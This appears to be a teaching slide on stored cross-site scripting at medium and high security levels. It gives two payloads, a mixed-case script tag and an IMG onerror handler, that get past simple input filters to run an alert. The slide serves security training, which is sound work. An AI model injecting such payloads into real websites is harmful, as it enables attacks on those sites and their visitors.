

# Stored XSS (Medium & High Security)
Medium Example:
<sCripT>alert("Your Website has been hack")</scRipt>

High Example:
<IMG SRC=/ onerror="alert('Your Website has been hack')"></img>

These payloads demonstrate how attackers persist malicious scripts in web apps.